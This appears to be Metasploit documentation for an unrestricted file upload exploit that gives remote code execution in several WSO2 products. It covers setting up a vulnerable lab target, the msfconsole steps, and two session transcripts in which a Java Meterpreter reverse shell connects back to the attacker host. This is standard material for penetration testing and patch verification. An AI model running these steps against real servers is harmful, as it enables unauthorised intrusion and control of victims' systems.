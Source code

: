 ## Vulnerable Application

Certain WSO2 products allow unrestricted file upload with resultant remote code execution. This affects WSO2 API Manager
2.2.0 and above through 4.0.0; WSO2 Identity Server 5.2.0 and above through 5.11.0; WSO2 Identity Server Analytics
5.4.0, 5.4.1, 5.5.0, and 5.6.0; WSO2 Identity Server as Key Manager 5.3.0 and above through 5.10.0; and WSO2 Enterprise 
Integrator 6.2.0 and above through 6.6.0.

Download WSO2 API Manager [4.0.0](https://wso2.com/api-management/previous-releases/) or another
version < 4.1.0 from the same link 

Download and install [JDK 1.8](https://www.oracle.com/ca-en/java/technologies/javase/javase8u211-later-archive-downloads.html) 
and set `$JAVA_HOME` in your environment 

Start the vulnerable application with `./wso2am-4.0.0/bin/api-manager.sh`. More information on target setup can be found
[here](https://apim.docs.wso2.com/en/latest/install-and-setup/install-and-setup-overview/)

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use multi/http/wso2_file_upload_rce`
1. Do: `set rhosts [ip]`
1. Do: `set lhost [ip]`
1. Do: `run`
1. You should get a shell.

## Scenarios

### WSO2 API Manager 4.0.0 on Ubuntu 20.04.1

```
msf6 > use multi/http/wso2_file_upload_rce
[*] Using configured payload java/meterpreter/reverse_tcp
msf6 exploit(multi/http/wso2_file_upload_rce) > set rhosts 172.16.199.173
rhosts => 172.16.199.173
msf6 exploit(multi/http/wso2_file_upload_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(multi/http/wso2_file_upload_rce) > check
[*] 172.16.199.173:9443 - The target appears to be vulnerable.
msf6 exploit(multi/http/wso2_file_upload_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Preparing payload...
[*] Uploading payload...
[+] Payload uploaded successfully
[*] Waiting 10 seconds for the payload to finish deploying...
[*] Executing payload...
[+] Payload executed successfully
[*] Sending stage (58851 bytes) to 172.16.199.173
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.173:34282 ) at 2022-04-26 10:58:31 -0700

meterpreter > getuid
Server username: msfuser
meterpreter > sysinfo
Computer        : ubuntu
OS              : Linux 5.13.0-40-generic (amd64)
Architecture    : x64
System Language : en_US
Meterpreter     : java/linux
```

### WSO2 API Manager 3.0.0 on Ubuntu 20.04.1
```
msf6 > use multi/http/wso2_file_upload_rce
msf6 exploit(multi/http/wso2_file_upload_rce) > set rhosts 172.16.199.173
rhosts => 172.16.199.173
msf6 exploit(multi/http/wso2_file_upload_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(multi/http/wso2_file_upload_rce) > check
[*] 172.16.199.173:9443 - The target appears to be vulnerable.
msf6 exploit(multi/http/wso2_file_upload_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Preparing payload...
[*] Uploading payload...
[+] Payload uploaded successfully
[*] Waiting 10 seconds for the payload to finish deploying...
[*] Executing payload...
[+] Payload executed successfully
[*] Sending stage (58851 bytes) to 172.16.199.173
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.173:33564 ) at 2022-04-26 12:09:18 -0700

meterpreter > getuid
Server username: msfuser
meterpreter > sysinfo
Computer        : ubuntu
OS              : Linux 5.13.0-40-generic (amd64)
Architecture    : x64
System Language : en_US
Meterpreter     : java/linux
```





